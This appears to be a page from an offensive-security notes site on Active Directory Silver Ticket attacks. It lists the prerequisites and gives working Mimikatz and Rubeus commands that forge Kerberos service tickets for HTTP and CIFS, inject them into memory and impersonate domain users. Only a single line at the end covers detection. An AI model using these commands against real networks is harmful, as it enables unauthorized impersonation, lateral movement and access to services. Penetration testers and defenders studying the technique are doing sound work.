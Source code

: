 # Silver Tickets
---

## Vulnerability

To lateralize on the network, you can forge Silver Tickets using `Mimikatz`. Silver Ticket attack consists in forging a Kerberos TGS for a service by impersonating any domain user. For instance, you can perform following attacks once you will forge required service tickets:
* [DCSync](/ad/dcsync/): LDAP (on Domain Controllers only).
* [PSExec](/windows/psexec/): HOST and CIFS.
* [WinRM](/ad/winrm/): HOST and HTTP.

## Prerequisites

* Having a SPN target and its associated SPN password hash.
* Having the domain user SID you want to impersonate.

## Exploit

Let’s assume we want to gain access to a web application hosted on IIS owned by a SPN. First, we can check we actually have not access to it.

```bash
# From a domain joined Windows computer
# It might respond "401 - Unauthorized: Access is denied due to invalid credentials"
Invoke-WebRequest -UseDefaultCredentials http://$target
```

Before forging our Silver Ticket, you need to obtain the SPN password hash of our target. Then, get the SID of the user you want to impersonate.

```bash
# From a domain joined Windows computer.
whoami /user
```

You can now forge the Silver Ticket and access your target.

```powershell
# With Mimikatz or Rubeus.
kerberos::golden /sid:$sid /domain:$domain /target:$hostname /service:http /rc4:$hash /user:$username
.\Rubeus.exe silver /service:http/$hostname.$domain /aes256:$hash /user:$username /domain:$domain /sid:$sid /nowrap

# Inject the ticket in memory.
kerberos::ptt ticket.kirbi

# Or create a dummy session before.
.\Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe /domain:$domain /username:$username /password:$whatever /ticket$Base64EncodedTicket
```

You can also use this attack to access an domain computer via SMB by using the machine account SID and its associated hash.

```bash
# With Mimikatz.
kerberos::golden /sid:$sid /domain:$domain /target:$hostname /service:cifs /rc4:$hash /user:$username
```

{: .warning }
> If the $sid is **`S-1-5-21-1987370270-658905905-1781884369**-1105`, don’t take the final part after the last `-`. You will only need **`S-1-5-21-1987370270-658905905-1781884369`.**

## Useful links

* [HackTricks](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/silver-ticket#available-services) for available services.

## Recommendations

- [ ] This method take advantage of a normal Kerberos behavior. The only thing you can do is monitor corresponding Windows events to detect and block this attack.